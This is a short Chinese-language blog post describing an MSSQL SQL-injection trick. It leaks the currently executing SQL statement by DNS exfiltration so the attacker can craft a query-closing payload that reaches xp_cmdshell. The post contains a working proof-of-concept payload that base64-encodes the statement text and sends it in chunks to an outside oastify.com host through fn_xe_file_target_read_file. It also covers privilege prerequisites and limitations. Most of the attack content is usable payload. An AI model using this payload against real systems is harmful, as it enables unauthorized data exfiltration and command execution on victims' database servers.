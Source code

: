 ```yaml
---
layout: post
title:  "MSSQL SQL注入 xp_cmdshell的一个技巧"
date:   2025-09-03 17:10:23 +0800
categories: jekyll update
---
```

# MSSQL SQL注入 xp_cmdshell的一个技巧
Mssql发生sqli注入后, 如果是is_srvrolemember权限, 可以通过xp_cmdshell执行系统命令. xp_cmdshell需要闭合当前查询, 起一个新query(stacked query). 在实际工作中, 闭合当前查询往往并不十分容易, 例如原查询是
```SQL
select count(*) 
from (
  select optname 
  from [dbo].[MSreplication_options] 
  where 1=1) 
countable;
```
其中 1=1 攻击者可控. 在这个例子里, 使用一些不需要的闭合sql语句的简单用例, 例如substring(@@version,1,1)='M'是可以达到bool型的sql注入的, 但是执行xp_cmdshell并不容易. 多行的SQL语句, 简单的使用-- 单行注释语法并不能合法的闭合sql语句, 整个sql语句会因为语法错误而失败. 对于这种情况, 需要猜测原始的sql语句是什么才能有效闭合. 

注意到, MSSQL中, 如下表达式可以查询本次的SQL语句是什么.
```SQL
select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)
```

对于以上的例子, 可以使用这个查询, 配合fn_xe_file_target_read_file这个函数的dns exfilterate, 把整个语句通过dns泄漏出来. 这样就可以针对性写出可以闭合sql语句的xp_cmdshell payload了. 

整体poc如下(用来替代原查询里的1=1)
``` SQL
exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'+substring((SELECT CAST(((select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle))) as varbinary(max)) FOR XML PATH(''), BINARY BASE64),1,60)+'.569py62fphof3b1e6zml1966wx2oqoed.oastify.com\1.xem',null,null))
```
注意到URL hostname label 不能超过63字节. 所以要substring一部分一部分dns exfiltrate出来. 

这个方法是非常通用的, 前提条件只需要VIEW SERVER STATE权限. 一般情况下, 只有在is_srvrolemember('sysadmin') 权限下我们才关心xp_cmdshell和闭合, 所以VIEW SERVER STATE是自动满足的.

一些注意事项: 

如果攻击者的payload被用在多条查询中一次执行(例如比较大的存储过程), 这个方法只能暴露第一条sql查询. 因为fn_xe_file_target_read_file在第一次执行后就运行时错误退出了.

如果攻击者的payload被用在多条查询中一次执行, 如果每处的syntax有较大差别, 那么即使知道原语句, 也不一定写得出每处都可以合法闭合的payload. 例如:
```SQL
select count(*) from (select optname from [dbo].[MSreplication_options] where 1=1) countable;
select optname from [dbo].[MSreplication_options] where 1=1;
```
注入点是1=1. 闭合第一句需要一个右括号,第二句不需要. 